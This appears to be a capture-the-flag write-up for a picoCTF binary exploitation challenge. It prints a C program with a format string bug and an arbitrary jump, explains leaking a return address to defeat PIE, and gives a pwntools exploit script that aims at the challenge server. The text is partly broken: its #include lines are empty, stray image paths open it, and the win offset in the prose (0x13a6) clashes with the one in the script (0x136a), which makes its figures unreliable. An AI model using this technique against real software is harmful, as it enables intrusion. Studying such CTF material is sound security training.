





You can download the binary here.
The source code is as follows.
#include
#include
#include
#include
void segfault_handler() {
printf("Segfault Occurred, incorrect address.\n");
exit(0);
}
void call_functions() {
char buffer[64];
printf("Enter your name:");
fgets(buffer, 64, stdin);
printf(buffer);
unsigned long val;
printf(" enter the address to jump to, ex => 0x12345: ");
scanf("%lx", &val);
void (*foo)(void) = (void (*)())val;
foo();
}
int win() {
FILE *fptr;
char c;
printf("You won!\n");
// Open file
fptr = fopen("flag.txt", "r");
if (fptr == NULL)
{
printf("Cannot open file.\n");
exit(0);
}
// Read contents from file
c = fgetc(fptr);
while (c != EOF)
{
printf ("%c", c);
c = fgetc(fptr);
}
printf("\n");
fclose(fptr);
}
int main() {
signal(SIGSEGV, segfault_handler);
setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered
call_functions();
return 0;
}
Examining the source code I could see that the program had a format string bug in call_functions.
Doing a checksec I could see that it used PIE, suggesting I needed to get the base address of the PIE image.

I reconstructed the stack frame of call_functions when printf was called.

From there I deduced that if I input "%19$p" I could make the program leak the return address of call_functions which would be
some location in the the .text section, more specifically somewhere in main. Examining the stack using pwndbg, I could see that the return address was always 0x1441 bytes
bigger than PIE base.


Additionally, disassembling win revealed that it was 0x13a6 bytes away from PIE base.

The exploit code is as below.
#!/usr/bin/python3
from pwn import *
def ex():
context.log_level = "debug"
p = remote("rescued-float.picoctf.net", 64379)
p.recvuntil(b":")
p.sendline(b"%19$p")
ret_addr = int(p.recvline().strip(), 16)
img_base = ret_addr - 0x1441
win_addr = img_base + 0x136a
print(f"{img_base=:x}")
print(f"{win_addr=:x}")
p.recvuntil(b": ")
p.sendline(b"%x" % win_addr)
p.interactive()
if __name__ == "__main__": ex()